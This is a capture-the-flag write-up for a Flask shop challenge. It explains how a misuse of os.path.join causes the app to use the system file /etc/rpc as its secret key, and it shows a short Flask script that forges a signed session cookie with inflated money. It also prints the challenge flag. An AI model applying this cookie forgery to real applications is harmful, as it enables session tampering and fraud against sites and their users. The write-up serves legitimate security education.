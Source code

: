 # Writeup for shop-1

In this challenge the goal is to buy a flag from the shop. The only problem is that we don't have enough money...

This app sets up something when starting up:

```python
...
app = Flask('EPT-Shop')
confdir = os.path.join('/app/', app.name, '/etc/')
if not os.path.exists(confdir):
    os.makedirs(confdir)
    random_process_context = random.choices(string.ascii_letters + string.digits, k=16)
    open(os.path.join(confdir, 'rpc'), 'w').write(random_process_context)

app.secret_key = open(os.path.join(confdir, 'rpc')).read()
...
```

If the folder `/app/EPT-Shop/etc/` does not exist, it creates it and stores a random value inside the file `/app/EPT-Shop/etc/rpc`.
This value is then used as the Flask SECRET_KEY.

There is a bug in the `os.path.join`-part of the code here. If you try to run `os.path.join('/app/', 'test', '/etc/')` in Python, it returns
`/etc/` instead of `/app/test/etc/`. This is because you are not supposed to have any string starting with `/` in `os.path.join`. 
If a string starts with `/` then `os.path.join` puts it as first in the result string.

`/etc/rpc` is actually a file that exists on Linux, and this now gets used as the secret key. Now that we know what the secret key is, we can craft our own
session cookie that has a lot of money, since the money is stored in the user session.

In order to solve this challenge I created my own Flask program that uses the `/etc/rpc` file as SECRET. Use the rpc-file from `ubuntu:22.04` docker
so you're sure you use the exact same file as the server.

```python
from flask import Flask, request, make_response, redirect, render_template, send_from_directory, session
import random
import string
import os

app = Flask('hacked')
app.secret_key = open('/etc/rpc').read()

@app.route('/', defaults={'path': 'index.html'})
@app.route('/<path:path>')
def static_files(path):
    session['money'] = 9999999
    if path == 'index.html':
        return render_template('index.html', items=items, money=session['money'])
    return send_from_directory('static', path)


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)
```

Visit the website and copy this cookie to the challenge website and buy the flag!

Flag: `EPT{J0in1ng_p4th5_1s_h4rd_C4n_1_j0in_y0u_1nst3ad_<3?}`
